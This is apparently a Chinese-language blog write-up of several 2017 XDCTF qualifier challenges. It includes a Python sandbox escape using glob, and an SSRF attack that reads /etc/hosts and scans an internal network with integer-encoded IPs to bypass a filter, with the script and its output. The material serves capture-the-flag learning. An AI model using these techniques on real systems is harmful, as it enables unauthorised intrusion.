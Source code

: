 ```yaml
---
layout: 
title: XDCTF 初赛部分题目WriteUp
date: 2017-10-04 13:27:27
tags:
	- CTF
	- XDCTF
	- Writeup
---
```


国庆假期水了下XDCTF的初赛，最后拿了个33名，没进决赛，不过学了不少东西，记一下
<!-- more -->
## Crypto

### 0x01 基础为王


从给的数据包中，可以找到两个分别名为flag-1 flag-2的图片，提取出来以后，使用Stegosolve进行一次XOR操作即可获得flag

![](https://image.mengsec.com/XDCTF-Crypto-1.png)


### 0x02 基础之Base64

给了长长的一大串base64，解密之后是一个C程序脚本，运行出helloword..

肯定不对啊，谷歌找资料，知道为base64隐写，网上有脚本可以直接进行解密

脚本如下

```python
# -*- coding: cp936 -*-
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('data.txt', 'rb') as f:
	bin_str = ''
	for line in f.readlines():
	    stegb64 = ''.join(line.split())
	    rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
  		offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
    	equalnum = stegb64.count('=') #no equalnum no offset
    	if equalnum:
        	bin_str += bin(offset)[2:].zfill(equalnum * 2)
    	print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
```
直接运行即可



## Web

Web就做出来一个题，比较菜/(ㄒoㄒ)/~~

### 0x01 Web2

题目忘记截图了。

python用来执行系统命令的四种方法都行不通，故意引用一个不存在的模块会在错误报告中，找到绝对路径

	File "/codes/6707603a4141a84912289293db7dcc1f/a.py"

而且glob模块并没有被禁用，可以借助它来列目录


```python
import glob
for filename in glob.glob(r''):
	print filename
```

从绝对路径开始，往下找，flag就在codes目录中，直接open读取输出即可获得flag


### 0x02 Web3
这个题目我没做出来，在此放上大表哥的flag

flag页面的URL为`http://web.ctf.xidian.edu.cn/web3/?file=flag.html`，推测为文件读取。

将flag.html改为index.php获得源码

```php
php
<?php
/*//设置open_basedir
ini_set("open_basedir", "/home/shawn/www/index/");
 */

if (isset($_GET['file'])) {
	$file = trim($_GET['file']);
} else {
	$file = "main.html";
}

// disallow ip
if (preg_match('/^(http:\/\/)+([^\/]+)/i', $file, $domain)) {
	$domain = $domain[2];
	if (stripos($domain, ".") !== false) {
		die("Hacker");
	}
}

if( 	@file_get_contents($file)!=''){
echo file_get_contents($file);

}else{
```



在这里卡了很久，最后推测是ssrf，通过读取`/etc/hosts`文件得知内网ip为`172.18.0.3`。

由于正则表达式过滤了形如`127.0.0.1`的ip，使用整形ip来代替，扫描内网。

```python
python
#-*- coding:utf-8 -*-
import socket
import requests
import urllib

for i in range(1, 256):
	ip = '172.18.0.%d' % i
	int_ip = int(socket.inet_aton(ip).encode('hex'), 16)
	#print int_ip
	r = requests.get('http://web.ctf.xidian.edu.cn/web3/?file='+urllib.quote_plus('http://%d' % int_ip))
	if 'flag' in r.text:
		print ip, int_ip
		print r.text
		break
```


172.18.0.2有flag


```html
172.18.0.2 2886860802
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.13.5</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- do u see me? ha flag{0e34c0321b2b3048d399b41a8ffda584} -->
```
## Misc

### 0x01 邮箱

根据提示

小黑发现一个有趣的博客，于是注册了一个账号，你能找到他的邮箱地址吗？
注意：直接递交邮箱地址即可。

打开数据包后，查找含有 register 的数据流

	http contains "register"

![](https://image.mengsec.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-1.png)

分别进行追踪流操作，经过尝试可以获得flag

![](https://image.mengsec.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-2.png)